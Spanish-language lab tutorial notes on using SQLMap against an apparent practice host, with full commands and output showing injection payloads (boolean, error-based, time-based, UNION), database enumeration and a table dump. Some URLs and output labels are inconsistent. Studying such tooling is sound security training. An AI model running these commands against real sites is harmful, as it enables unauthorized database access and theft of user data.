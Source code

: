 ```yaml
---
layout: apunte
title: "3. Automated SQL Injection Tool"
---
```


Ejecutar un ataque SQLI, requiere encontrar la vulnerabilidad SQLI dentro de una aplicación web. Sin embargo, hacer eso de forma manual puede requerir tiempo y esfuerzo.

SQLMap es una herramienta automatizada para detectar y explotar SQLI en aplicaciones web. Simplifica el proceso de identificar estas vulnerabilidades.

Es una herramienta de CLI, por lo que si escribes `--help` podrás ver todas las flags que puedes usar. Si no quieres hacerlo manualmente en cada comando, puedes activar la flag `--wizard` que hará que te guíe por el proceso:

```shell
user@ubuntu:~$ sqlmap --wizard
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]

[*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u): 
```

La flag `--dbs` te ayuda a extraer los nombres de las bases de datos. Una vez los tengas, puedes extraer información de las tablas de esa base de datos usando `-D database_name --tables`. Después de obtener las tablas, puedes usar `-D database_name -T table_name --dump`. Las diferentes flags nos ayudan a extraer información detallada de las bases de datos. Veamos un caso práctico:

El primer paso es buscar una URL vulnerable. Muchas veces te encontrarás con URLs que usan peticiones GET (como `http://sqlmaptesting.thm/search?cat=1`) para obtener la información, si ves una de estas puedes testear la URL con la flag `-u`.

Usaremos una URL web supuesta vulnerable: `http://sqlmaptesting.thm` para la demostración. Supón que esta página tiene una opción de búsqueda y cuando haces click en ella y buscas algo, la URL se convierte en `http://sqlmaptesting.thm/cat=1`, que usa el parámetro GET `cat=1`. Como sabemos, estas URLs pueden ser vulnerables, por lo que probamos:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

Los resultados muestran que diferentes tipos de SQLI se han identificado en la URL objetivo. Estas son técnicas de SQLI. Mientras que en una "boolean based" usas booleanos, como `1=1`, en una "error based" modificas la query para generar errores y estos errores contienen información valiosa sobre los datos.

Usemos flags para explotar la URL:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

Después de ejecutar  el comando vemos que hay dos bases de datos: `users` y `members`. Seleccionamos `users`, para ello definimos la base de datos después de la flag `-D` y usaremos `--tables` para obtener el nombre de las tablas:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Ahora que tenemos las tablas de la base de datos, extraeremos la información de `thomas`. Para ello, definiremos la base de datos con la flag `-D`, la tabla con `-T` y la flag `--dump` para extraer los datos.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

También se pueden usar URLs que usen el método POST, donde la información se manda en el cuerpo de la petición en lugar de la URL. Para hacer esto debes interceptar una petición y guardarla en un `.txt` para después usarla con SQLMap de la siguiente manera:

```shell
user@ubuntu:~$ sqlmap -r intercepted_request.txt`
```

